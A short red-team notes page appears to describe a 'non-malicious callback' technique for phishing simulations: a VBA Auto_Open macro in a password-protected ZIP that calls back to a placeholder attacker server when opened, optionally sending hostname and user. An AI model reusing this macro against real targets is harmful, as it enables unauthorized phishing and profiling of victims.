 # Non-malicious Callback

There have been multiple tests in the past where dropping a shell onto a victims machine is not within scope. In these cases, I often perform a simulated exercise where we have a PoC payload that calls back to our infrastructure, allowing us to verify that someone downloaded and opened the document.

Often times this payload can be delivered in a password protected ZIP file with a macro. I'd never taken the time to actually document the process of doing this until I came across a blog post from  [Hackzzdogz](https://hackzzdogs.gitbook.io/red-team/red-team-blogs/bypassing-microsoft-endpoint-solutions-for-fun). This can be further modified to include additional information in the request such as the hostname of the device of signed in user:

```markup
Sub Auto_Open()
Dim myURL As String
myURL = "$attacker_server"


Dim WinHttpReq as Object
Set WinHttpReq = CreateObject("Microsoft.XMLHTTP")
WinHttpReq.Open "GET", myURL, False
WinHttpReq.send
End Sub
```

### References

{% embed url="https://hackzzdogs.gitbook.io/red-team/red-team-blogs/bypassing-microsoft-endpoint-solutions-for-fun" %}

{% embed url="https://www.trustedsec.com/blog/malicious-macros-for-script-kiddies/" %}
